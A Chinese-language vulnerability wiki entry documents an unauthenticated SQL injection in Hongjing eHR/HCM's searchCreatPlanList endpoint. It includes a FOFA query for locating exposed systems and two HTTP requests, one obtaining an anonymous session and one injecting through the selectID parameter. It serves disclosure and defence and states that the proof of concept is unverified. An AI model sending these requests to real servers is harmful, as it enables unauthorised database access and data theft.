

# 宏景eHR/HCM searchCreatPlanList selectID SQL 注入

## 条目说明

- 对象与具体问题：宏景eHR/HCM；searchCreatPlanList selectID SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：先访getpassword获取匿名session后使用
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 需明确初始Cookie不是业务登录凭据，后请求保持同session
- 版本转换报错输出只图，完整root cause缺失
- 在野/影响广无引用，修复只有泛化措施

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

宏景EHR-searchCreatPlanList-sql注入漏洞，未授权的攻击者可执行恶意sql语句导致服务器数据库信息泄露甚至被攻陷。

## 影响版本

宏景EHR

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="HJSOFT-HCM"

POC/EXP：获取cookie

```http
GET /templates/index/getpassword.jsp HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

```


POC/EXP：携带cookie访问

```http
GET /train/plan/searchCreatPlanList.do?b_selectPlan=query&selectID=1'%2B(1-@@VERSION)%2B')--+ HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=555A25C7E278A92CE7AC9E8FE0F9E916
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
